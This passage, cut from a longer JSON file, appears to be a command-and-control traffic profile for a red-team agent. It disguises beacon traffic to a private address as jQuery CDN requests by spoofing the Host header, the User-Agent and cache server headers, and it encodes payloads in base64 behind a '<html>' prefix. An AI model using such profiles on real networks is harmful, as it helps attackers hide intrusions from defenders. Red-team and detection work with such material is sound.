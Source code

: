```JSON
                  "parameters": ["30"]
                },
                {
                  "function": "base64",
                  "parameters": []
                }
              ]
            }
          ],
          "Body": []
        }]
      },
      "POST": {
        "ServerBody": [],
        "ServerCookies": {},
        "ServerHeaders": {
          "Server": "NetDNA-cache/2.2",
          "Cache-Control": "max-age=0, no-cache",
          "Pragma": "no-cache",
          "Connection": "keep-alive",
          "Content-Type": "application/javascript; charset=utf-8"
        },
        "AgentMessage": [{
          "urls": ["http://192.168.205.151:9000"],
          "uri": "/download.php",
          "urlFunctions": [],
          "QueryParameters": [
            {
              "name": "bob2",
              "value": "justforvalidation",
              "transforms": []
            }
          ],
          "AgentHeaders": {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Host": "code.jquery.com",
            "Referer": "http://code.jquery.com/",
            "Accept-Encoding": "gzip, deflate",
            "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
          },
          "Cookies": [
            {
              "name": "BobCookie",
              "value": "splat",
              "transforms": [
                {
                  "function": "prepend",
                  "parameters": [
                    "splatity_"
                  ]
                }
              ]
            }
          ],
          "Body": [
            {
              "function": "base64",
              "parameters": []
            },
            {
              "function": "prepend",
              "parameters": ["<html>"]
            },
```